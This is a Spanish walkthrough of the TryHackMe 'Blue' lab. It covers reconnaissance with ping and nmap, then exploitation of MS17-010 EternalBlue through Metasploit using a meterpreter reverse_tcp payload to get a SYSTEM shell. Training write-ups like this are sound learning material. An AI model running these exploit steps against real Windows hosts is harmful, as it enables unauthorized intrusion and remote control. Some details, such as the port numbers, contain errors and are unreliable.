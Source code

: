 ```yaml
---
title : Máquina|Blue|THM
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/blue/blue.gif" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/blue" style="color: lightblue;">Blue</a></p>
    </div>
</div>

<h2><font color="white"><center># Blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
>
<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
>
<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto 455 veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
>
<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a ( ms17-010 EternalBlue ), ahora explotemos conmsfconsole, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
>
<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
>
<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con set rhosts.</p>
>
<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
>
<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
>
<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos exploit para iniciar el ataque.</p>
>
<img src="/imgs/blue/blue8.jpg"/>
* <p>Listo si ejecuta el comando Shell, y pone whoami sera autority system.</p>


